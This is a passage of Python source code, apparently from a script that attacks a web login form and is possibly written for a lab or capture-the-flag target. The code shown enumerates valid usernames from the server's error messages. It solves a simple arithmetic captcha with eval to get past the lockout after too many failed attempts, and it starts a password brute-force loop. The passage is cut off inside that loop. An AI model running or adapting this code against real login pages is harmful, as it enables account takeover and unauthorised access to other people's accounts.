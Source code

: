 ```python
    LOG.error(f"Error loading file: {e}", bold=True)
    sys.exit(1)

lastresponse_text = ""


# Function to make a POST request
def make_request(data):
    global lastresponse_text
    try:
        response = requests.post(url, data=data, timeout=5)
        lastresponse_text = response.text
        return response
    except requests.RequestException as e:
        LOG.error(f"Request failed: {e}")
        return None


# Function to resolve captcha
def resolve_captcha(text):
    try:
        r = re.findall(r"(\d+)\s*([+\-*/])\s*(\d+)\s*=\s*\?", text)[0]
        num1, sign, num2 = int(r[0]), r[1], int(r[2])
        return eval(f"{num1}{sign}{num2}")
    except (IndexError, ValueError) as e:
        LOG.error(f"Failed to resolve captcha: {e}")
        return None


# Function to find a valid username
def find_username():
    global lastresponse_text
    LOG.info("Starting username enumeration...", bold=True)
    LOG.info("")

    for idx, username in enumerate(usernames):
        LOG.info(f"Trying username: {username}", remove_last_line=True)
        data = {"username": username, "password": "password"}

        response = make_request(data)
        if not response:
            continue

        if "Too many bad login attempts!" in response.text:
            data["captcha"] = resolve_captcha(lastresponse_text)
            response = make_request(data)

        if f"The user &#39;{username}&#39; does not exist" not in response.text:
            LOG.info(f"Valid username found: {username}", bold=True, remove_last_line=True)
            return username

    LOG.warning("No valid username found.")
    return None


# Function to find a valid password for the given username
def find_password(username):
    global lastresponse_text
    LOG.info(f"Starting password brute-force for username: {username}", bold=True)
    LOG.info("")

    for idx, password in enumerate(passwords):
```
